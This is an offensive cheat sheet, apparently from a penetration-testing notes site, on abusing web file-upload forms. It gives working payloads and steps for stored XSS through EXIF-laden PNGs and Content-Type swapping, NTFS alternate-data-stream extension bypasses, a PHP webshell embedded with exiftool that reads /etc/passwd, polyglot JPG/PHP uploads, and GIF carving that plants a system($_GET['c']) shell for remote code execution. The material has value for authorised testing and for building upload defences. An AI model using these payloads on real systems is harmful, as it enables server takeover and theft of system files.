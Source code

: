 # Upload of Malicious Files

## Check List



## Cheat Sheet

### Methodology

#### XSS Stored via Upload avatar PNG \[HTML]

{% stepper %}
{% step %}
Create Malicious PNG Payload&#x20;
{% endstep %}

{% step %}
Download the XSS payload PNG from&#x20;

[https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/XSS%20Injection/Files/xss\_comment\_exif\_metadata\_double\_quote.png](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/XSS%20Injection/Files/xss_comment_exif_metadata_double_quote.png)

or use exiftool to embed

```bash
exiftool -Comment="">alert(prompt('XSS BY ZEROX4'))" xss_comment_exif_metadata_double_quote.pn
```
{% endstep %}

{% step %}
Access Avatar Upload Page
{% endstep %}

{% step %}
Go to the locate the avatar upload form
{% endstep %}

{% step %}
Intercept Upload Request in Burp Suite
{% endstep %}

{% step %}
Modify Content-Type to `text/html`
{% endstep %}

{% step %}
Edit the Content-Type header for the uploaded file from `image/png` to `text/html` in the request
{% endstep %}

{% step %}
Submit Modified Request
{% endstep %}

{% step %}
Forward the altered request to upload the malicious PNG as HTML
{% endstep %}

{% step %}
Verify Stored XSS Execution
{% endstep %}

{% step %}
Confirm the file is saved on example.com and access it to trigger the alert payload
{% endstep %}
{% endstepper %}

***

#### NTFS Alternate Data Streams (ADS) abuse

{% stepper %}
{% step %}
Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application

```
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a OR GIF8;
```
{% endstep %}

{% step %}
Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server ("`file.asax:.jpg`") This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions ("`file.asp::$data.`")
{% endstep %}
{% endstepper %}

***

#### EXIF metadata webshell

{% stepper %}
{% step %}
Find a nice picture and embed the shell into the image like this

```bash
exiftool -documentname='<?php echo file_get_contents("/etc/passwd"); ?>' picture.png
```
{% endstep %}

{% step %}
Rename the jpg/png picture to the .php extension
{% endstep %}

{% step %}
Upload the picture
{% endstep %}

{% step %}
You will get an 500 error page. Ignore it. Grep the time from the response and convert it to a timestamp
{% endstep %}

{% step %}
Use the timestamp to find your shell

&#x20;`https://example.org/uploads/profile/[USERNAMAE][timestamp].php`
{% endstep %}
{% endstepper %}

***

#### Polyglot file upload

{% stepper %}
{% step %}
A Magic Number is a unique sequence of bytes at the beginning of a file that identifies its type. Even if a file’s extension is changed, the Magic Number helps the system recognize the actual file format Examples

```
PNG files start with: 89 50 4E 47 0D 0A 1A 0A
PDF files start with: %PDF-1.7
```

```http
Content-Disposition: form-data; name="image"; filename="img.jpg"
Content-Type: image/jpeg

ÿØÿàJFIFÿÛC -> jpg Magic Number
... (binary data) ...
ÿÙ
```
{% endstep %}

{% step %}
I uploaded a normal .jpg image, and the server accepted it, returning a 200 OK status\
Exploit Attempt
{% endstep %}

{% step %}
I re-send the exact same request, but this time, I modified the image content by embedding the PHP shell code inside it
{% endstep %}

{% step %}
But I send the request and changed the file extension to PHP

```http
Content-Disposition: form-data; name="image"; filename="img.php" -> change to .PHP
Content-Type: image/jpeg

ÿØÿàJFIFÿÛC
... (binary data) ...
<?php
echo "<pre>";
system("uname -a");
echo "</pre>";
?>
ÿÙ
```
{% endstep %}

{% step %}
Result: The server accepted the modified file and returned 200 OK
{% endstep %}
{% endstepper %}

***

#### GIF image carving (PHP payload injection)

{% stepper %}
{% step %}
Identify possible image formats (starting with GIF)
{% endstep %}

{% step %}
Test how the server transforms the uploaded image
{% endstep %}

{% step %}
Replicate these transformations locally using ImageMagick and PHP
{% endstep %}

{% step %}
Determine if any sections of the image remain unmodified
{% endstep %}

{% step %}
Inject PHP code into those sections and test execution
{% endstep %}

{% step %}
Testing with GIF
{% endstep %}

{% step %}
I began with a simple one-color (black) GIF image to easily spot modifications. After uploading and downloading the image, I compared the original and transformed versions. The transformations included

Stripping EXIF data&#x20;

Resizing the image to 300x300 pixels To replicate this locally, I used the following PHP script

```php
<?php
$thumb = new Imagick('testgif.gif');
$thumb->resizeImage(300,300);
$thumb->writeImage('testgif2.gif');
$thumb->destroy();
?>
```
{% endstep %}

{% step %}
Through testing, I identified an unmodified section of the GIF file filled with `00` values. This provided enough space to inject my PHP payload
{% endstep %}

{% step %}
Payload Injection Using a hex editor in Burp Suite, I inserted the following PHP code into the GIF file

```php
<?php phpinfo();?>
<?php system($_GET['c']);?>
```
{% endstep %}

{% step %}
By carving these payloads into the unmodified section of the GIF file, I successfully achieved remote code execution after uploading the modified image
{% endstep %}
{% endstepper %}

***
